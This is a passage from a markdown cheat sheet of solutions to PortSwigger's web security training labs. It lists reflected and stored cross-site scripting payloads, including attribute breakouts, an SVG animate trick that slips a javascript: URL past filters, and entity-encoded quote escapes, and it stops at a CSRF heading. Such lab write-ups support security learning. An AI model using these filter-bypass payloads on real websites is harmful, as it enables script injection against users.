 ```javascript
<!-- In Query text input -->
${alert(1)}
```

### [Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

```javascript
" autofocus onfocus="alert(document.domain)"
```

### [Reflected XSS with event handlers and href attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)

```javascript
<svg width="120" height="120" viewBox="0 0 120 120" version="1.1" xmlns="http://www.w3.org/2000/svg">
  <a>
    <text x="10" y="25" width="100" height="100">
      Hello
    </text>
    <animate attributeName="href" values="javascript://%0aalert(1)" />
  </a>
</svg>
```

### [Stored XSS into anchor href attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

```javascript
<!-- In Website section -->
javascript:alert("1337")
```

### [Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

```javascript
<!-- In website section -->
&apos;-alert(document.domain)-&apos;
```

---

## [Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf)

